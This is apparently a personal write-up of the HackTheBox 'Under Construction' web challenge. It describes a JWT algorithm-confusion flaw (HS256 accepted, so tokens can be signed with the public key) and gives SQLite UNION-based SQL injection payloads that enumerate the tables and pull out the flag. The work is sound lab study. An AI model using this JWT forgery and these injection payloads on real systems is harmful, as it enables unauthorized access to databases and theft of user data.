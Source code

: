 ```yaml
---
title: Under Construction
description: Under Construction box from HackTheBox write up.
---
```


# Under Construction <a href='/assets/resources/HackTheBox/UnderConstruction-resources.zip' title="Download resources"> :material-folder-zip:{:alt="Download resources"} </a>

## Static analysis

The challenge gives the webpage files so i started checking the code. In the `ìndex.js` file we can see the diferent paths we have: `/`, `/auth` and `/logout`. Everything looks right here so the next thing we can check is the `AuthMiddleware` that is what make sure if a user is logged in and who the user is.

The middleware is checking the cookies for a JWT token that will be decoded using the `JWTHelper` and if the token is right, the application will take the user name from the decoded token and check it in the database using the `DBHelper`. If the user exists the application sends the user to the index and if not it sends an error message. If the the token is incorrect or missing, the application responds with an error or redirecting to the login page respectively.

Let's talk about the helpers. Look's like the `JWTHelper` just contains functions to sign and verify/decode JWT tokens, the thing is that in the `decode` function the application is allowing the `HS256`, a symmetric algorithm, to verify the JWT. This means that we can sign tokens using the public key if we specify `HS256` as the algorithm (**JWT confusion attack**). About the `DBHelper`, it is mostly ok but for the `getUser` function because it is vulnerable to SQL injection. This function is called with the username contained in the JWT token to check if the user exists so we can enumerate the database.

## Attack

I wrote a Python script that generate the JWTs with a SQL injection payload, sends the tokens and parse the responses to make my life easier. We also know that the databse is SQLite (We know what payloads to use).

First to get the tables we can use:
```sqlite
' OR 1=2 UNION SELECT 1, group_concat(tbl_name), 3 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- -

Result --> flag_storage,users

```

Cool the `flag_storage` table looks promising let's enumerate it:

```sqlite
' OR 1=2 UNION select 1,group_concat(name),3 from pragma_table_info('flag_storage') -- -

Result --> id,top_secret_flaag
```

Now we can just get the flag with:

```sqlite
' OR 1=2 UNION select 1,group_concat(top_secret_flaag),3 from flag_storage -- -
```

